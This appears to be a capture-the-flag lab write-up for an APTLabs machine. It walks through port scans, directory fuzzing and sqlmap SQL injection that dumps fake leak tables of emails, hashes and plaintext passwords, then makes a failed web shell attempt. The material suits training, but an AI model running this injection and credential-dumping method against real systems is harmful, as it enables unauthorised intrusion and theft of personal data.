




As usual I will engage RUSTSCAN and start by checking all the alive services running on the TCP protocoll.

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: AA8602394B1E9D69B8EFCD045FFD3085
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: DataLeaks
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/29%OT=80%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6680229F%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=Z%II=RI%TS=A)
OPS(O1=M550ST11NW7%O2=M550ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M550ST11NW7%O6=M550ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%TG=40%W=FAF0%O=M550NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 1.864 days (since Thu Jun 27 20:20:34 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   28.64 ms 10.10.14.1
2   28.69 ms 10.10.110.88
```

And will use NMAP to enumerate all the services alive running on the first 1K UDP ports.

```
┌──(root㉿kali-bello)-[/home/millycash]
└─# nmap -F -sU 10.10.110.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-29 16:58 CEST
Nmap scan report for 10.10.110.88
Host is up (0.040s latency).
All 100 scanned ports on 10.10.110.88 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 5.35 seconds
```

Now I will move on and start fuzzing the singular services.

&nbsp;

# HTTP

Immediately i am in front of some sort of search engine?



The website is custom and seems searching between leaks on databases..  It is also possible to search for different keywords like Usernames, email, phone numbers and many more!

I checked the local HTML source code of all pages but nothing was laying around as comment leftovers.

I will engage DIRSEARCH and check for possible hidden file or folders:

```
┌──(root㉿kali-bello)-[/home/millycash]
└─# dirsearch -u "http://10.10.110.88"     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/reports/http_10.10.110.88/_24-06-29_17-20-47.txt

Target: http://10.10.110.88/

[17:20:47] Starting: 
[17:20:48] 301 -  309B  - /js  ->  http://10.10.110.88/js/
[17:20:50] 403 -  298B  - /.ht_wsr.txt
[17:20:50] 403 -  301B  - /.htaccess.bak1
[17:20:50] 403 -  301B  - /.htaccess.orig
[17:20:50] 403 -  303B  - /.htaccess.sample
[17:20:50] 403 -  302B  - /.htaccess_extra
[17:20:50] 403 -  299B  - /.htaccessBAK
[17:20:50] 403 -  301B  - /.htaccess.save
[17:20:50] 403 -  299B  - /.htaccessOLD
[17:20:50] 403 -  300B  - /.htaccessOLD2
[17:20:50] 403 -  299B  - /.htaccess_sc
[17:20:50] 403 -  301B  - /.htaccess_orig
[17:20:50] 403 -  292B  - /.html
[17:20:50] 403 -  291B  - /.htm
[17:20:50] 403 -  301B  - /.htpasswd_test
[17:20:50] 403 -  297B  - /.htpasswds
[17:20:50] 403 -  298B  - /.httr-oauth
[17:20:51] 403 -  291B  - /.php
[17:20:57] 302 -    0B  - /affiliate.php  ->  index.php
[17:21:00] 403 -  313B  - /cgi-bin/a1stats/a1disp.cgi
[17:21:00] 403 -  305B  - /cgi-bin/awstats.pl
[17:21:00] 403 -  306B  - /cgi-bin/htimage.exe?2,2
[17:21:00] 403 -  303B  - /cgi-bin/awstats/
[17:21:00] 403 -  305B  - /cgi-bin/index.html
[17:21:00] 403 -  300B  - /cgi-bin/login
[17:21:00] 403 -  304B  - /cgi-bin/login.cgi
[17:21:00] 403 -  308B  - /cgi-bin/mt-xmlrpc.cgi
[17:21:00] 403 -  305B  - /cgi-bin/htmlscript
[17:21:00] 403 -  307B  - /cgi-bin/imagemap.exe?2,2
[17:21:00] 403 -  312B  - /cgi-bin/mt7/mt-xmlrpc.cgi
[17:21:00] 403 -  301B  - /cgi-bin/mt.cgi
[17:21:00] 403 -  304B  - /cgi-bin/mt/mt.cgi
[17:21:00] 403 -  295B  - /cgi-bin/
[17:21:00] 403 -  311B  - /cgi-bin/mt/mt-xmlrpc.cgi
[17:21:00] 403 -  305B  - /cgi-bin/mt7/mt.cgi
[17:21:00] 403 -  304B  - /cgi-bin/login.php
[17:21:00] 403 -  302B  - /cgi-bin/php.ini
[17:21:00] 403 -  306B  - /cgi-bin/printenv.pl
[17:21:00] 403 -  303B  - /cgi-bin/printenv
[17:21:00] 403 -  303B  - /cgi-bin/test-cgi
[17:21:00] 403 -  303B  - /cgi-bin/test.cgi
[17:21:00] 403 -  306B  - /cgi-bin/ViewLog.asp
[17:21:01] 200 -    0B  - /config.php
[17:21:01] 301 -  310B  - /css  ->  http://10.10.110.88/css/
[17:21:04] 200 -    2KB - /faq.php
[17:21:04] 200 -  361KB - /favicon.ico
[17:21:04] 301 -  312B  - /fonts  ->  http://10.10.110.88/fonts/
[17:21:05] 200 -  296B  - /header.php
[17:21:05] 301 -  313B  - /images  ->  http://10.10.110.88/images/
[17:21:05] 200 -  540B  - /images/
[17:21:07] 200 -  490B  - /js/
[17:21:12] 301 -  317B  - /phpmyadmin  ->  http://10.10.110.88/phpmyadmin/
[17:21:12] 200 -    1KB - /phpmyadmin/README
[17:21:12] 200 -    3KB - /phpmyadmin/doc/html/index.html
[17:21:12] 200 -    9KB - /phpmyadmin/ChangeLog
[17:21:13] 200 -    3KB - /phpmyadmin/index.php
[17:21:13] 200 -    3KB - /phpmyadmin/
[17:21:15] 403 -  301B  - /server-status/
[17:21:15] 403 -  300B  - /server-status

Task Completed
```

I see a phpmyadmin portal



And judging by the help I might think this is version 4.9.0.1:



And looking around seems like this specific version is vulnerable to CSRF? https://www.exploit-db.com/exploits/47385

But before I will catch the seach function in Burpsuite and pass that to SQLMAP for checking for possible SQLi. I am a bit skeptical as I dont't see any response to my requests what's so ever, but you never know!



And seems like we have something? Let's wait and see, I might have to adapt a bit my payload to make it more specific, and hopefully bypass the WAF? But we have the list of the DBses:

```
[17:37:11] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
[17:37:12] [INFO] fetching database names
available databases [6]:
[*] auth
[*] dataleaks
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys

[17:37:12] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 64 times
[17:37:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'

[*] ending @ 17:37:12 /2024-06-29/
```

I tried to show the tables from auth but nothing came out so far, so I will check at dataleaks.

```
17:38:43] [INFO] fetching tables for database: 'dataleaks'
Database: dataleaks
[7 tables]
+-----------------+
| Edaboard        |
| GoGames         |
| LinuxForums     |
| LupaWorld       |
| MoneyBookers    |
| collection1     |
| gigantichosting |
+-----------------+
```

And starting from edoboard:

```
[17:40:34] [WARNING] no clear password(s) found                                                                                                                                  
Database: dataleaks
Table: Edaboard
[2 entries]
+--------------+----------------------------------+-------------------+------------+----------+
| email        | hash                             | mobile            | password   | username |
+--------------+----------------------------------+-------------------+------------+----------+
| bob@live.com | 3684311f2ab8cdb11eb6bdc159bd880d | +90 432 652 14 13 | P@ssw0rd1! | <blank>  |
| <blank>      | <blank>                          | <blank>           | <blank>    | <blank>  |
+--------------+----------------------------------+-------------------+------------+----------+

[17:40:34] [INFO] table 'dataleaks.Edaboard' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.110.88/dump/dataleaks/Edaboard.csv'
[17:40:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'
```

And gogames:

```
Database: dataleaks
Table: GoGames
[2 entries]
+--------------------------+----------------------------------+-------------------+------------+-----------+
| email                    | hash                             | mobile            | password   | username  |
+--------------------------+----------------------------------+-------------------+------------+-----------+
| kim.stone@protonmail.com | 3684311f2ab8cdb11eb6bdc159bd880d | +90 653 111 67 35 | P@ssw0rd1! | Junglelee |
| <blank>                  | <blank>                          | <blank>           | <blank>    | <blank>   |
+--------------------------+----------------------------------+-------------------+------------+-----------+
```

And we have some credentials from LinuxForums that might be reused?

```
[17:42:25] [WARNING] no clear password(s) found                                                                                                                                  
Database: dataleaks
Table: LinuxForums
[2 entries]
+------------------------+----------------------------------+-------------------+------------+-------------+
| email                  | hash                             | mobile            | password   | username    |
+------------------------+----------------------------------+-------------------+------------+-------------+
| robert@0x0security.com | d8f40ecca9c23d665cb86579ab62c586 | +90 921 525 87 74 | iL0v3l!nux | linuxrobert |
| <blank>                | <blank>                          | <blank>           | <blank>    | <blank>     |
+------------------------+----------------------------------+-------------------+------------+-------------+

[17:42:25] [INFO] table 'dataleaks.LinuxForums' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.110.88/dump/dataleaks/LinuxForums.csv'
[17:42:25] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'
```

Next is for Lupaworld:

```
[17:43:34] [WARNING] no clear password(s) found                                                                                                                                  
Database: dataleaks
Table: LupaWorld
[2 entries]
+-------------------------+----------------------------------+---------+------------+-------------+
| email                   | hash                             | mobile  | password   | username    |
+-------------------------+----------------------------------+---------+------------+-------------+
| jim.khalifa@hotmail.com | 3684311f2ab8cdb11eb6bdc159bd880d | <blank> | P@ssw0rd1! | khalifaLife |
| <blank>                 | <blank>                          | <blank> | <blank>    | <blank>     |
+-------------------------+----------------------------------+---------+------------+-------------+

[17:43:34] [INFO] table 'dataleaks.LupaWorld' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.110.88/dump/dataleaks/LupaWorld.csv'
[17:43:34] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'

[*] ending @ 17:43:34 /2024-06-29/
```

Next checking under Monebookers DB we can see the third flag!

```
[17:44:50] [WARNING] no clear password(s) found                                                                                                                                  
Database: dataleaks
Table: MoneyBookers
[2 entries]
+-----------------------------+----------------------------------+------------------------+------------+--------------+
| email                       | hash                             | mobile                 | password   | username     |
+-----------------------------+----------------------------------+------------------------+------------+--------------+
| bob.billings@protonmail.com | 3684311f2ab8cdb11eb6bdc159bd880d | APTLABS{P@sS0rD_R3Us3} | P@ssw0rd1! | bob.billings |
| <blank>                     | <blank>                          | <blank>                | <blank>    | <blank>      |
+-----------------------------+----------------------------------+------------------------+------------+--------------+

[17:44:50] [INFO] table 'dataleaks.MoneyBookers' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.110.88/dump/dataleaks/MoneyBookers.csv'
[17:44:50] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'

[*] ending @ 17:44:50 /2024-06-29/
```

Next is for "Collection1" which contains another possible password?

```
[17:46:54] [WARNING] no clear password(s) found                                                                                                                                  
Database: dataleaks
Table: collection1
[2 entries]
+----------------------+----------------------------------+-------------------+---------------+----------+
| email                | hash                             | mobile            | password      | username |
+----------------------+----------------------------------+-------------------+---------------+----------+
| mark@0x0security.com | 35aaa279711af9353dcd8f2e5c22b86b | +90 433 794 13 53 | $Ul3S@t0x0S3c | mak      |
| <blank>              | <blank>                          | <blank>           | <blank>       | mak      |
+----------------------+----------------------------------+-------------------+---------------+----------+

[17:46:54] [INFO] table 'dataleaks.collection1' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.110.88/dump/dataleaks/collection1.csv'
[17:46:54] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'

[*] ending @ 17:46:54 /2024-06-29/
```

And lastly one for gigantic hosting:

```
[17:47:46] [WARNING] no clear password(s) found                                                                                                                                  
Database: dataleaks
Table: gigantichosting
[2 entries]
+-------------------------+----------------------------------+-------------------+------------+----------+
| email                   | hash                             | mobile            | password   | username |
+-------------------------+----------------------------------+-------------------+------------+----------+
| bob@gigantichosting.com | 3684311f2ab8cdb11eb6bdc159bd880d | +90 763 995 34 55 | P@ssw0rd1! | bob      |
| <blank>                 | <blank>                          | <blank>           | <blank>    | <blank>  |
+-------------------------+----------------------------------+-------------------+------------+----------+

[17:47:46] [INFO] table 'dataleaks.gigantichosting' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.110.88/dump/dataleaks/gigantichosting.csv'
[17:47:46] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.110.88'

[*] ending @ 17:47:46 /2024-06-29/
```

Now I tried to gain a reverse shell via SQLMAP, this basically uploads a php webshell via file-read, unfortunately the DB running on behalf of the MYSQL had no write permissions that allowed me to implant a shell.

I don't think I will find any flags here so I guess we can move on?

&nbsp;

&nbsp;

&nbsp;